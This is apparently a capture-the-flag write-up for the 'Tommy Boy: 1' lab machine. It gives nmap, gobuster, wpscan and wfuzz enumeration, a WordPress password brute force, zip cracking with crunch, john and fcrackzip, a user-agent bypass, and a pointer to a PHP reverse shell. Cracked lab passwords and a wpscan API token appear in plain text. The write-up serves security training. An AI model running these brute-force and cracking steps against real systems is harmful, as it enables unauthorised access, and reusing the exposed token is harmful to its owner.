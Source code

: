 # TOMMY BOY: 1

# 1 Information gathering
## 1.1 Discovery host
`nmap -n -Pn -F 192.168.196.1/24 -oN host_discovery.txt`
![658e8dd5ec063ce4f0cf0e74b55cfbed.png](./_resources/75a1c51c20bd44d1a555735df259b773.png)


## 1.2 Service enum
`nmap -sV -sC -p- 192.168.196.6 -oN full_service_enum-sC.txt`
![11fa5edf7e4938bae413be19e3f7beb4.png](./_resources/0e0299dd2a0c4b3396a3f4b51f427926.png)

`nmap -sV -sU -F 192.168.196.6 -oN udp-sC-sV.txt`

## 1.3 Web 80
### 1.3.1 Gobuster enum web content
`gobuster dir -u http://192.168.196.6 -w /usr/share/wordlists/dirb/big.txt -t 50 -x php,bkp,bak,txt,html,aspx -f -o info-slash.txt`
Here we can grep responses that dont contain `7` (starting number for default response size):
![a2e1d1919eaeb2eafe036e118baf8669.png](./_resources/d8e09f94168e478f984cd4772525e3b3.png)

`gobuster dir -u http://192.168.196.6 -w /usr/share/wordlists/dirb/big.txt -t 50 -x php,bkp,bak,txt,html,aspx -o info.txt`
And here, we can grep responses that dont contain `302`:
![377c51c3851031d039d6e85244ece65a.png](./_resources/0d2f83f1b7c246b49f043b3c0961e4ab.png)

![7bcaecbd5080985313ea7d05486faba1.png](./_resources/b6bd04886b8e47c8a11f7288e825d57a.png)

![5c69086f685644983d4b721991720c63.png](./_resources/af86d7f258ec4ba9a40294507fb37992.png)

### 1.3.2 Html source code
![da4e1fa0bfb2f3c44e6d9fa2ff71a9b7.png](./_resources/f16c8efc829640e9adc047f547000e26.png)
There is a conversation.
There is a hint to find the blog name. The youtube video provided there says: “prehistoric forest”.
We tried use it as folder, and bingo!
![c1833446dc7e47bc4cbff8d7a0072105.png](./_resources/e7a1a0d49d8c46eaaf419b896c219bea.png)

### 1.3.3 Wordpress found
`gobuster dir -u http://192.168.196.6/prehistoricforest/ -w /usr/share/wordlists/dirb/big.txt -t 50 -x php,bkp,bak,txt,html,aspx -f -o info-slash.txt`
![9bfe5c495ef9258eef2cc20d52f9ff41.png](./_resources/383ccd374d1f4f34b5e8127533321afd.png)

#### 1.3.3.1 Wpscan
`wpscan --url http://192.168.196.6/prehistoricforest/ -e ap,at,tt,cb,dbe,u1-20,m --plugins-detection aggressive --disable-tls-checks --api-token 7MBL9noH6s6pOW5qAM6boXVS5wEMayvrBaaoBbMaIKg -o all-info.txt --ignore-main-redirect`

#### 1.3.3.2 Wordpress protected page
![84049290c07b861013556e388cc4bf00.png](./_resources/66f5982a6e574ff49941c2d8e8fd21f5.png)

Tom jr asked a question, and there is a interesting comment:
![da78716a22383f34f7085f60d4b305c7.png](./_resources/513578f0b1024afab94edce136dae94e.png)

Using `strings` on the image found in the directory mentioned, there is a MD5 hash:
![b2c81ce84824fe6e342b70aadccdc50b.png](./_resources/a919d8af0b904d54b04b3d5e931c9da9.png)
`ce154b5a8e59c89732bc25d6a2e6b90b`

![50a36a5563590094acc32c0ecf663a33.png](./_resources/291373b931ed4cb79377c3d22bb2db52.png)
`spanky`

Now we can unprotect this page and read it:
![04be124c8af1ea346819447848200483.png](./_resources/ef24e1635c014fa283bcab2dd3aedabf.png)
![b17f52db64eb5d3c35283187e12bc395.png](./_resources/8462515d0f2a4ed3be3d3af3290ea4b9.png)

## 1.4 Simple bash script to find intermittent ftp port
With the above tips found previously, we can search this ftp port using a simple script:
```
#!/bin/bash

while true; 
do
	echo "[!] Executando varredura!"
   	nmap -p- -sV -T4 192.168.196.6 -n -Pn | grep -i ftp > teste.txt

   	if [ -s ./teste.txt ];
	then
		cat teste.txt
		exit 0
	fi
done
```

# 2 Exploitation
## 2.1 Brute force with wpscan
`wpscan --url http://192.168.196.6/prehistoricforest/ -P /root/shared/rockyou.txt -U users.txt -t 100`
![ec2581a159efe01c8e819d749803ef69.png](./_resources/7eb3eae7a782465ea143e096b39f7c54.png)

## 2.2 Login as nickburns using simple password
With the previous tip about logging in to ftp as nickburns, we tried using the username as the password and it works:
![c1229df1fcb0993b7058f7f90aa4ae57.png](./_resources/fd570b05cbd04ec4bc0492e1416f5845.png)
![3fc6379d8ddf9b3d351dc65d5c7dafb3.png](./_resources/38b41202977c469e9f32f732d27a0cd2.png)

## 2.3 Bypass user-agent based blocking
Accessing the cited directory, we can't view the content. But there is a message with a tip:
![69fb23bae6aafb159f8543062f6f1008.png](./_resources/8de5fe233e984be98b14fba3d3bb80bb.png)

Changing the user-agent to another, an iphone's agent, we can view the full content:
https://developers.whatismybrowser.com/useragents/explore/operating_system_name/ios/
![0ad5561dd94442f8ffb94f6d764603b0.png](./_resources/11c641314f714585a28da7ec9afb58f3.png)
Another tip!

### 2.3.1 Wfuzz enum web content
`wfuzz -u "http://192.168.196.6/NickIzL33t/FUZZ.html" -w root/shared/rockyou.txt -f info.txt -H "User-Agent: Mozilla/5.0 (iPhone; CPU iPhone OS 12_2 like Mac OS X) "`
We receveiced a `200` response with different size:
![77bd6ff06894d3ebe4691322dc304c7e.png](./_resources/e40d8a90d4cc4e4eba00178ea6ca3d22.png)

### 2.3.2 New file - fallon1.html
![778a8c7ca1a3de623f20c306cc0330f8.png](./_resources/c65c2f4511a34a0fb92170725fb59b59.png)

#### 2.3.2.1 A hint
![a6ece17da2d1d4b59f751e094d3f329a.png](./_resources/8c2fa19c6eaf4d73ad669cf7c9637549.png)

#### 2.3.2.2 A zip file with password
![0d86f4abadc393b10f38527a174d69d7.png](./_resources/da9ca7afe6234e4e803ea624ba752d2a.png)

#### 2.3.2.3 Upload cababilities
![80b4b2e3ed3574c08af0f3d8edb497e0.png](./_resources/e518e479ed324c549e21621be042ffd6.png)
Without success here.

### 2.3.3 Generate wordlist with Cruch and cracking zip file with John

`crunch 13 13 -t bev,%%@@^1995 > wordlist.txt`

`zip2john t0msp4ssw0rd.zip > hash.hash`
`john hash.hash wordlist.txt`

Or you can user fcrackzip
`fcrackzip -v -u -D -p wordlist.txt t0msp4ssw0rdz.zip`
![f4fdee485d2ef94aa40596743d92f818.png](./_resources/247028d5cda1454e8ca9f0be7fbe124e.png)
bevH00tr$1995

![399de380e4f1a29a08d22ec3455e510f.png](./_resources/d87cb02df28e43a78c1e744001e42518.png)

### 2.3.4 Another hint that reveals a page with info
![dd543fa7906c4852e6b1dd3d5834edf6.png](./_resources/f06331d37f224910918e2667f68b92e9.png)

![e5d6537cb822b77ccbff65a5b2ebf92a.png](./_resources/757ce0a918904da1ba120fa3f63d1e42.png)
fatguyinalittlecoat1938!!

### 2.3.5 Login as bigtommysenior
![e2f9b511a91784f6a3fb008076b512af.png](./_resources/5109045aeae54ffca292ea451d6a2e86.png)


# 3 Post-exploitation
Was used LinEnum.sh to enumerate this Linux, but without good results.
At this points, the option was manually find writable files due LinEnum.sh don't found the necessary file.
`find / -perm -222 -type d 2>/dev/null`

![aec84f362889f16aaf0ee1e0de07e0b7.png](./_resources/c8554937aad148669fa7fa6865605902.png)
Here we can create a reverse shell file, use it and verify if the web system uses another user.

## 3.1 Reverse shell (pentest monkey)
https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
![a0771ad1846c6b2f3ff2b20e9d265ee9.png](./_resources/c73f22ecae044de998995edd40392b36.png)

It is worth remembering that this machine does not have root escalation, so we finish here.